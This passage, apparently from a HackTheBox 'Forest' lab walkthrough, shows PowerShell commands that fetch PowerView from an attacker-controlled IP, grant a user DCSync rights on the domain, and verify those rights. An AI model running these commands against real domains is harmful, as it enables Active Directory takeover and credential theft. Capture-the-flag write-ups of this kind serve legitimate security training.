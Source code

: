 Now we are ready, let's write that ACL:

```bash
# Get PowerView on the box
Invoke-WebRequest -Uri "http://10.10.14.2:5454/PowerView.ps1" -outfile PowerView.ps1


# Set up our account
$pass = ConvertTo-SecureString 'kashmir54' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('HTB\kashmir', $pass)


# Write the ACL 
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity "kashmir" -Rights DCSync
``` 

Now we can see if our new user has the required privileges to perform the DCSync attack:

```bash
# Get SID
Get-DomainUser -Identity kashmir  |select samaccountname,objectsid,memberof,useraccountcontrol |fl


# Set SID for the operation
$sid= "S-1-5-21-3072663084-364016917-1341370565-10101"


# Check privileges
Get-ObjectAcl "DC=htb,DC=local" -ResolveGUIDs | ? { ($_.ObjectAceType -match 'Replication-Get')} | ?{$_.SecurityIdentifier -match $sid} |select AceQualifier, ObjectDN, ActiveDirectoryRights,SecurityIdentifier,ObjectAceType | fl
```

<p align="center">
  <img src="/images/walkthroughs/hackthebox/forest/3_2_privs.png" width="90%"/>
</p>
